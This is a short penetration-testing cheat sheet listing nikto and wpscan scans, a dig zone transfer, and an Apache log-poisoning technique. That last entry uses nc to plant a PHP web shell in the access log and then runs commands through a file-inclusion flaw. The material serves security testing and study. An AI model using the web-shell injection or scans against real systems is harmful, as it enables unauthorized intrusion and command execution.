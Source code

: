 
# nikto
- service: http
- tactics: enumeration

## scan website for vulnerabilities
- `nikto -C all -h http://target-ip`

---

# wpscan
- service: http
- tactics: enumeration

## scan wordpress installation for vulnerabilities
- `wpscan --url http://target-ip/ --enumerate p`

---

# nc
- service: all
- tactics: enumeration
- tactics: inital_access

## logfile injection
```
nc target-ip target-port
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: <IP>
Connection: close
```
        
### Afterwards include the it via lfi
- `?lfi_file=/var/log/apache2/access.log&cmd=<command>`

---

# dig
- service: dns
- tactics: enumeration

## full zone transfer
- `dig -t AXFR target-dns-ip`

---
